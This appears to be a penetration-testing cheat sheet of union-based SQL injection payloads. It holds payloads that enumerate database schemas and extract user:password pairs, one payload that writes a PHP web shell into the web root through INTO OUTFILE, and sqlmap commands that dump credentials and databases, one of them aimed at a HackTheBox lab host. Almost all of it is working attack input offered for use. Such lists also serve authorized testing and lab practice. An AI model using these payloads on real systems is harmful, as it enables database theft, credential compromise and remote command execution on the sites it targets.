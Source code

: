 ## [+] Union Based SQL Injection

' or 1=1#

1' ORDER BY 10#

1' UNION SELECT version(),2#

1' UNION SELECT version(),database()#

1' UNION SELECT version(),user()#

1' UNION ALL SELECT table_name,2 from information_schema.tables#

1' UNION ALL SELECT column_name,2 from information_schema.columns where table_name = "users"#

1' UNION ALL SELECT concat(user,char(58),password),2 from users#

```sh
q=test&lang=en' UNION SELECT version(),2,3,4,"<?php echo shell_exec($_GET['cmd'});?>",6 INTO OUTFILE "c:/xampp/htdocs/backdoor2.php"#
```


sqlmap --url="<url>" -p username --user-agent=SQLMAP --threads=10 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs

```sh
python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 -p username,password
```

```sh
sqlmap -r header.req -p <parameter> --level 4 --risk 3 --batch
```

Fetch on string.

```sh
python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 --string "Wrong identification" --dbms mysql -p username,passsword 
python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 --string "Wrong identification" --dbms mysql -p username,passsword --dump

python2 ./sqlmap.py -r login.req --batch --level 5 --risk 3 -p email --force-ssl --dump

python2 sqlmap.py -u "https://admin-portal.europacorp.htb/login.php" --data "email=admin@europacorp.htb&password=" --risk 3 --level 5 --dbms "MYSQL" --dump
```

